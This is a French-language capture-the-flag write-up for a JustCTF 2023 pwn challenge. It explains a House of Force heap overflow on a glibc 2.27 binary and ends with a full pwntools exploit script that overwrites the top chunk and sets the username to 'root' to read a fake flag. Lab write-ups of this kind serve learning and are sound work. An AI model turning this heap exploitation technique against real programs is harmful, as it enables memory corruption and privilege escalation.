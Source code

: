 ```yaml
---
title: JustCTF 2023 - Welcome to my house
date: 2024-02-11
tags: 
- heap exploitation
- house of force
category: 
- pwn
---
```


# Découverte du challenge

file
```bash
› file house_patched                 
house_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.27.so, for GNU/Linux 3.2.0, BuildID[sha1]=efb671ee78fcd896b0e79a07aa8cb08817475d31, not stripped
```

checksec
```
gef➤  checksec
Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

ldd
```
› ldd house_patched
	linux-vdso.so.1 (0x000078f5573e8000)
	libc.so.6 => ./libc.so.6 (0x000078f556c00000)
	./ld-2.27.so => /usr/lib64/ld-linux-x86-64.so.2 (0x000078f5573ea000)
```

glibc version
```
libc 2.27
```


En lancant le challenge on a la possibilité de faire : 
- Créer un utilisateur
- Lire le flag

```
[!]	Welcome in my house!	[!]

Actual user: admin

1. Create user
2. Read flag
3. Exit
```

On ne peut lire le flag seulement si on est l'utilisateur root, ici nous sommes admin.

```
>>  2

[-] You have to be root to read flag!
```

La commande "Create user" va faire : 
- Demander un nom d'utilisateur
- Demander un mot de passe
- Demander une taille de disque ??

En reversant cette méthode, on comprend que le programme alloue des chunks pour chaque variable qu'il va nous demander.   

Une partie intéressante ici : on contrôle la taille du chunk qui va être alloué pour l'espace disque.
De plus, le contenu de "password" est copié vers un chunk de taille 0x18 à la suite du chunk pour notre espace mémoire.
Pour finir, plusieurs heap overflow sont possibles. 

```c
int64_t create_user(){
	void* fsbase
    int64_t rax = *(fsbase + 0x28)
    printf("Enter username: ")
    int64_t ptr_username = malloc(0x19)
	__isoc99_scanf(&data_400c29, ptr_username)
    putchar(0xa)
    strcpy(malloc(0x18), ptr_username)
    printf("Enter password: ")
    int64_t ptr_password = malloc(0x18)
    __isoc99_scanf(&data_400c29, ptr_password)
    putchar(0xa)
    printf("Enter disk space: ")
    putchar(0xa)
    int64_t var_30
    __isoc99_scanf(&data_400c50, &var_30)
    malloc(var_30)
    int64_t rax_12 = malloc(0x18)
    strcpy(rax_12, ptr_password, rax_12)
    int64_t rax_15 = rax ^ *(fsbase + 0x28)
    if (rax_15 != 0)
	    rax_15 = __stack_chk_fail()
    return rax_15
}
```

**Idée** : Est ce qu'on pourrait utiliser la technique house of force pour écraser le top chunk, combler le vide qu'il y a entre notre position sur la heap et notre target, puis écraser le contenu de la target par "root" ?

Alors c'est partie !

Pour commencer, on utiliser le heap overflow pour écraser le top chunk et y placer la taille maximum (0xFFFFFFFFFFFFFFFF)

```pwndbg> vis

0x603000	0x0000000000000000	0x0000000000000251	........Q.......
...
0x603250	0x0000000000000000	0x0000000000000021	........!.......
0x603260	0x0000006e696d6461	0x0000000000000000	admin...........
0x603270	0x0000000000000000	0x0000000000000031	........1.......
0x603280	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603290	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x6032a0	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA	 <-- Top chunk
```

Ensuite, on calcule la distance qui sépare notre notre variable target avec notre position actuelle dans la heap.
Notre binaire n'étant pas PIE, on trouve les adresses grâce à GDB.

```python
target = 0x603250
heap = 0x603300

def delta(x,y):
    return (0xffffffffffffffff - x) + y
dist = delta(heap, target+16)
```

Maintenant, on construit notre payload: 
- On remplit les userdata du chunk avec des données junk, puis on écrase le TOP CHUNK avec un très grand nombre (cela nous permettera de faire de très grosses allocations).
- La variable password doit être à 'root' car elle sera copié par la suite dans notre target
- Comme taille pour l'espace disque, on calcule la distance qu'il y a entre notre position dans la heap et notre target.

```python
create_user(b"A"*0x18 + p64(-1, signed=True), b"root", dist)
read_flag()
```

## Output

```bash
› python xpl.py
[+] Starting local process './house_patched': pid 602233
[*] Target: 0x603250
[*] Heap: 0x603300
[*] Dist: 0xffffffffffffff5f
FLAG{f4k3_fl4g_f0r_t3st1ng}

[*] Stopped process './house_patched' (pid 602233)
```

et voila !

## Full exploit
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch='i386')
exe = './house_patched'

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# create user
def cu(username, password, size):
    io.sendlineafter(b">>  ", b"1")
    io.sendlineafter(b"username:", username)
    io.sendlineafter(b"password:", password)
    io.sendlineafter(b"space:", str(size).encode())

# read flag
def rf():
    io.sendlineafter(b">>  ", b"2")
    io.recvline()
    print(io.recvline().decode())

def delta(x,y):
    return (0xffffffffffffffff - x) + y

gdbscript = '''
b create_user
'''.format(**locals())

target = 0x603250
heap = 0x603300
dist= delta(heap, target+16)

io = start()

info(f"Target: {hex(target)}")
info(f"Heap: {hex(heap)}")
info(f"Dist: {hex(dist)}")

cu(b"A"*0x18 + p64(-1, signed=True), b"root", dist)
rf()
```

